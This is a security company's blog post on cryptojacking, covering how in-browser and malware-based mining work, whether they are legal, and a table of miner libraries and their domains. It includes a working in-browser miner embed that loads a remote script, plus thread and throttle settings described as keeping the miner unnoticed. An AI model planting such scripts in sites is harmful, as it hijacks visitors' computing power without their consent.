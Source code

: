 ```yaml
---
slug: cryptojacking-malware/
title: Cryptojacking, a Real Malware?
date: 2019-08-25
category: opinions
subtitle: Understanding cryptojacking "malware"
tags: social-engineering, hacking, malware
image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620330840/blog/cryptojacking-malware/cover_qypfzt.webp
alt: Photo by Alberto Duo on Unsplash
description: Here we'll explain the different types of cryptojacking and give an example. We'll also discuss its legal use and the advantages of implementing it in an app.
keywords: Blockchain, Cryptocurrencies, Cryptojacking, Mining, Malware, JavaScript, Ethical Hacking, Pentesting
author: Diego Alvarez
writer: diegoaa
name: Diego Alvarez
about1: Systems and Telecommunications Engineer student
about2: '"Blessed is the man who expects nothing, because he will never be disappointed." Alexander Pope'
source: https://unsplash.com/photos/e4rcg33x4fA
---
```


Before we begin, we need a brief definition of blockchain. It is simply
a unique, consensual, and distributed registry on the network that
allows storage of information that cannot be modified, lost or deleted.
It is used in the health sector, smart contracts, intellectual property
management, and cryptocurrencies, the last being its most common use.

In the field of cryptocurrencies, a blockchain stores all transactions
made with a cryptocurrency. The security and integrity of these systems
are maintained by nodes, which are computers connected to the blockchain
network competing with each other to verify transactions. This process
is known as mining and is carried out by providing processing power with
either `CPUs`, `GPUs`, or by using specialized hardware for this type of
task.

Usually nodes associate with each other and create groups that working
together help to validate a group of transactions. When these
transactions are validated, each node is rewarded with the proportion of
the power contributed.

## Concept

When mining cryptocurrency, take into account that in these processes,
the percentage of `GPU` or `CPU` usage increases, as well as the use of
electricity.

Now, what if I tell you that others can perform such processing power
for you, and even better, without having to divide the profits between
them? It sounds pretty good, and it’s simple to implement with two
variations:

- The first is carried out by infecting a victim’s machine with
  malware. Usually, this is done by social engineering. We can make a
  victim, without their knowledge, download malware that executes the
  mining process in the background.

- The other variation is in-browser mining. This executes code in the
  user’s browser when the user is accessing a particular site. In this
  case, `JavaScript` is used to execute such scripts.

## Discussion

On one hand, some people prefer that their `CPU` be used `100%` of the
time, without having to deal with ads and pop-ups on every new page.

On the other hand, antivirus companies periodically update their
definition of malware and include web miners as a potential threat to a
user’s system.

According to reports by COINTELEGRAPH[<sup>\[1\]</sup>](#r1%20), Monero
(the currency most affected by excessive mining) plans to reinforce its
algorithm by requiring miners to dedicate over two gigabytes of `RAM` to
the process, which could make cryptojacking attempts harder to hide.

How the scripts are used defines whether the usage is legal or not.
There are cases where attackers inject code into websites through `XSS`,
generating profits, but do not have the consent of the website
administrator.

As noted above, with social engineering techniques, the attacker could
make victims download malicious programs to perform mining without
consent.

## Tools

There are many tools that can be used to perform in-browser mining.
[Coinhive](https://krebsonsecurity.com/2018/03/who-and-what-is-coinhive/)
had been one of the most used, but since March 2019 it has stopped
working.

<div>
<cta-banner
buttontxt="Read more"
link="/solutions/red-teaming/"
title="Get started with Fluid Attacks' Red Teaming solution right now"
/>
</div>

However, there are other tools that are quite similar. Table 1 below, a
scan made with [publicWWW](https://publicwww.com/), shows the
approximate number of websites using these tools.

<div class="tc">

**Table 1. Quantity of websites per library[<sup>\[2\]</sup>](#2)**

</div>

| Website           | Results | Query Parameter                                                                                                                                                        |
| ----------------- | ------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Coinhive          | 30611   | "coinhive.min.js"                                                                                                                                                      |
| JSEcoin           | 1131    | "load.jsecoin.com"                                                                                                                                                     |
| Crypto-Loot       | 695     | "CryptoLoot.Anonymous"                                                                                                                                                 |
| Minr              | 324     | "minr.pw", "st.kjli.fi", "abc.pema.cl", "metrika.ron.si", "cdn.rove.cl", "host.d-ns.ga", "static.hk.rs", "hallaert.online", "cnt.statistic.date", "cdn.static-cnt.bid" |
| CoinImp           | 317     | "www.coinimp.com/scripts/min.js"                                                                                                                                       |
| ProjectPoi (PPoi) | 116     | "projectpoi.min"                                                                                                                                                       |
| AFMiner           | 46      | "afminer.com/code/miner.php"                                                                                                                                           |
| Papoto            | 42      | "papoto.com/lib/papoto.js"                                                                                                                                             |

In the following example, a test is shown using [Crypto
Loot](http://Crypto-Loot), a library that is replacing the previous
Coinhive. It is very easy to implement in any application by inserting
the following code.

**In-Browser mining script.**

``` JavaScript
<script src="//statdynamic.com/lib/crypta.js"></script>
<script>
  var miner = new CRLT.Anonymous('15837bc7758859e913c5ccc2d292a9f1e54775389d5',
    { threads:4,throttle:0.2, coin: "xmr" }
  );
  miner.start();
</script>
```

When a user visits the application, the processing level quickly
increases. The recommended thread value to make the script unnoticed is
between 2-4. And the throttle that defines the maximum `CPU` usage is at
0.2 (80%), the full speed being 0.0, and the least recommended.

<div class="imgblock">

![CPU Usage](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330839/blog/cryptojacking-malware/cpu_wkmpwo.webp)

<div class="title">

Figure 1. CPU Usage while visiting a website with In-Browser mining script.

</div>

Collected earnings and processing power can be seen on the
[dashboard](https://crypto-loot.org/dashboard/) of the person who
inserted the script.

## Conclusion

The use of services such as [Crypto Loot](http://Crypto-Loot) can be
legal. They are considered malware when used anonymously in user’s
systems. It is our responsibility to inform users about what is
happening and provide statistics to users on mined power.

In order for these mining methods to be legitimate and therefore, legal,
users must receive a notification about the execution of these scripts,
as well as the option to disable them and stop mining.

So far, there are few websites where the user is not actually informed
of the use of these scripts. Here is where antivirus companies disagree.
Some antivirus companies believe excessive `CPU` usage can cause
intentional damage, while others believe there is no intention to harm
an infected machine’s files; they just make the machine work a little
slower.

Without a doubt, no one wants their machine to work slower, but with
proper configuration of the scripts, you can achieve a website that
generates profits without having to show annoying ads to visitors and
without exceeding `CPU` usage.

## References

1. COINTELEGRAPH. [Monero Developers Consider Adopting New
    Proof-of-Work Algorithm in
    October.](https://cointelegraph.com/news/monero-developers-consider-adopting-new-proof-of-work-algorithm-in-october)

2. S. Eskandari, A. Leoutsarakos, T. Mursch and J. Clark (2018). [A
    first look at browser-based
    cryptojacking](https://sci-hub.tw/https://ieeexplore.ieee.org/abstract/document/8406561).
    *2018 IEEE European Symposium on Security and Privacy Workshops
    (EuroS\&PW)*, 63.
